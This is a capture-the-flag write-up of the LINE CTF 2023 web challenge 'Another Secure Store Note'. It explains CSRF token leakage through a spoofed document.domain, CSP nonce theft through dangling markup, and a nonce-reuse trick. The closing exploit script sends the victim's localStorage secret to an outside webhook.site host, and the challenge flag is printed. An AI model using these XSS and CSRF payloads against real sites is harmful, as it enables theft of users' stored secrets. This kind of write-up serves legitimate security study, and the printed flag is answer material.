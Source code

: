 ```yaml
---
title: Another Secure Store Note - LINE CTF 2023
date: 2023-03-28 11:38:14
author: ma1f0y
author_url: https://twitter.com/mal_f0y
categories:
  - Web
tags:
  - LINECTF2023
---
```


**tl;dr**

+ Leak csrf token bypassing document.domain
+ visiting `/profile/` will not change the nonce 
+ Leak nonce using dangling markup in firefox 
+ Add XSS payload using the csrf to get the flag

<!--more-->

**Challenge Points**: 322
**No. of solves**: 7
**Solved by**: [ma1f0y](https://twitter.com/mal_f0y),[Lu513n](https://twitter.com/Lu513n)

## Challenge Description

Just a simple app to store notes.


## Analysis

The challenge was a simple application, which will store our secret in localStorage.Our goal was to get the flag which is stored in the admin's localStorage using xss.

Analyzing the source code of the app.
```javascript
const newCookie = rand()
db.cookies[newCookie] = Object.create(null)
db.cookies[newCookie].username = username
db.cookies[newCookie].csrf = rand()
db.cookies[newCookie].nonce = rand()
res.setHeader('Set-Cookie', `id=${newCookie}; HttpOnly; SameSite=None; Secure`)
res.redirect('/profile')
```
we can see that when we log in to the application it will create a cookie named id with a random value for us, and assign a random csrf token and random nonce to that corresponding cookie. And the site uses those csrf token and nonce in CSP to protect against CSRF and XSS

In profile.ejs which will be rendered when in `/profile` we have direct html injection using username.

```htmlembedded
  <div class=main>
      <h1>📕 <%- name %> secured notes 📕</h1>
      <div>
```


And there is getSettings.js which is used to set the csrf token into the page.


## Exploitation

We have to leak the CSRF token to change the admin's username and then only we can have HTML injection. To do so we can load the getSettings.js on our site and make it set the csrf token on the input feild on our site. But there is some check on the js which needs to bypass.

```javascript
if (isInWindowContext() && document.domain === '<%= domain %>') 
```

The `isInWindowContext()` will retrun true when the script is loaded in a window, so the only check valid is that document.domain should be the domain of the challenge site, we can easily bypass the check by defining the domain property on the document object from our site itself.

PoC: 
```html
<html>
    <body>
        <script>
            Object.defineProperty(document, 'domain', {get: () => "35.200.57.143"});
        </script>
        <input type="text" id="_csrf">
        <script src="https://35.200.57.143:11004/getSettings.js"></script>
        
    </body>
</html>
```

after getting the csrf token we can change the name to whatever html we want, But due to csp we can't get xss 

```javascript
const csp = (id && db.cookies[id] && db.cookies[id].nonce) ? `script-src 'nonce-${db.cookies[id].nonce}'` : '';  
res.setHeader('Content-Security-Policy', `default-src 'self'; base-uri 'self'; ${csp}`)
```


When we observe the profile page:
![](https://i.imgur.com/37en65Z.png)

After our injection point, we can see they are using single quotes in the type attribute of the script tag after the nonce attribute. So we can use [dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) to leak the nonce, using a  meta tag to redirect to our site and with an opening single quote that will close after the nonce part.

Actually, if we check
> Chrome blocks HTTP URLs with "<" or "\n" in it.

So our dangling markup will not work in chrome based browser. Luckily the challenge's admin bot was using **firefox** . So our exploit will work like a charm

![](https://i.imgur.com/ol50tSr.png)


Now we have the nonce but there is still a problem left, whenever the `/profile` page is loaded it contains an image tag with `csp.gif` as src, which is used to change the nonce each time after we load the page.

```javascript
app.get('/csp.gif', shouldBeLoggedIn, (req, res) => {
  db.cookies[req.cookies.id].nonce = rand()
  res.setHeader('Content-Type', 'image/gif')
  res.send('OK')
})
```

So if we get the nonce value from the page, we can't use it again , as the nonce will be changed when the csp.gif loads. So our aim is to somehow make the page doesn't load the csp.gif .

Another close observation of the page will give you the answer, the csp.js is using the relative path. So instead of visiting the profile file page using `/profile`  we can visit `/profile/`  and that will make the csp.js request to `/profile/csp.js`  which is not a valid endpoint. Thus csp will not change and we can reuse the csp we stole using dangling markup.

## Exploit script

```html
<script>
Object.defineProperty(document, 'domain', {get: () => "35.200.57.143"});
</script>
<form action="https://35.200.57.143:11004/profile" method=POST>
          <input class=change-name type=text name=name>
          <input type=text name=csrf id=_csrf>
          <input type=submit value=Submit>
</form>
<script src="https://35.200.57.143:11004/getSettings.js"></script>
<script>
(async () => {
    if(document.location.href.length<=60){
        document.getElementsByName('name')[0].value=`<meta http-equiv="refresh" content='0; url=http://webhook.site/?b=`;
        document.forms[0].submit();
        setTimeout(() => window.location='https://35.200.57.143:11004/profile/', 30);
    }
    else{
        var url = document.location.href;
        var nonce = url.split('nonce=')[1].split('%20')[0];
        var paylaod = `<script nonce=${nonce}>document.location='http://webhook.site/?b='+localStorage.getItem('secret');</`+`script>`;
        document.getElementsByName('name')[0].value=paylaod;
        document.forms[0].submit();
        setTimeout(() => window.location='https://35.200.57.143:11004/profile/', 50);
    }
})()
</script>
```

Host the script in the webhook server and change the url to your webhook server, Submit that url to the admin bot and get the flag !!.

## Flag

``LINECTF{72fdb8db303404e8388062c7233f248e}``
















